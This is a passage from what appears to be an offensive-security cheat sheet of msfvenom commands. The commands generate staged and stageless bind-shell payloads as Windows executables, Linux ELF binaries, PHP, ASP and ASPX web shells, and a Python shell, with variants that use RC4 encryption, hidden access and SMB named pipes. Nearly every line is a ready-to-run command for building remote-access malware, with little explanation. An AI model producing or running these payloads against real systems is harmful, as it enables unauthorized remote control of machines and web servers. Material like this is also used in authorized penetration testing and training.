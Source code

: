 1. **x86 (32-bit) Payloads**

`$ msfvenom -p windows/shell/bind_tcp lport=<PORT> -f exe -o shell-x86.exe`

`$ msfvenom -p windows/shell/bind_hidden_tcp ahost=<IP> lport=<PORT> -f exe -o hidden-shell-x86.exe`

`$ msfvenom -p windows/shell/bind_tcp_rc4 lport=<PORT> rc4password=<KEY> -f exe -o shell-x86.exe`

For the SMB pipe the default for LPORT will always be port 445

`$ msfvenom -p windows/shell/bind_named_pipe lport=<PORT> pipename=<PIPENAME> -f exe -o shell-x86.exe`

2. **x86-64 (64-bit) Payloads**

`$ msfvenom -p windows/x64/shell/bind_tcp lport=<PORT> -f exe -o shell-x86-64.exe`

`$ msfvenom -p windows/x64/shell/bind_tcp_rc4 lport=<PORT> rc4password=<KEY> -f exe -o shell-x86-64.exe`

##### 2.5.2.2 - Staged Linux Bind Shells

1. **x86 (32-bit) Payloads**

`$ msfvenom -p linux/x86/shell/bind_tcp lport=<PORT> -f elf -o shell-x86`

2. **x86-64 (64-bit) Payloads**

`$ msfvenom -p linux/x64/shell/bind_tcp lport=<PORT> -f elf -o shell-x86-64`

##### 2.5.2.3 - Staged Bind Webshells

1. **PHP**

`$ msfvenom -p php/bind_php lhost=<IP> lport=<PORT> -f raw -o shell.php`

`$ msfvenom -p php/bind_perl lport=<PORT> -f raw -o shell.php`

`$ cat shell.php | xclip -selection clipboard && echo '<?php ' | tr -d '\n'> shell.php && xclip -selection clipboard -o >> shell.php`

2. **ASP**

`$ msfvenom -p windows/shell/bind_tcp lport=<PORT> -f asp -o shell-x86.asp`

`$ msfvenom -p windows/x64/shell_bind_tcp lport=<PORT> -f asp -o shell-x64.asp`

3. **ASPX**

`$ msfvenom -p windows/shell/bind_tcp lport=<PORT> -f aspx -o shell-x86.aspx`

`$ msfvenom -p windows/x64/shell_bind_tcp lport=<PORT> -f aspx -o shell-x64.aspx`

##### 2.5.2.4 - Stageless Python Bind Shells

`$ msfvenom -p python/shell_bind_tcp lport=<PORT> -o shell.py`

##### 2.5.2.5 - Stageless Windows Bind Shells

1. **x86 (32-bit) Payloads**

`$ msfvenom -p windows/shell_bind_tcp lport=<PORT> -f exe -o shell-x86.exe`
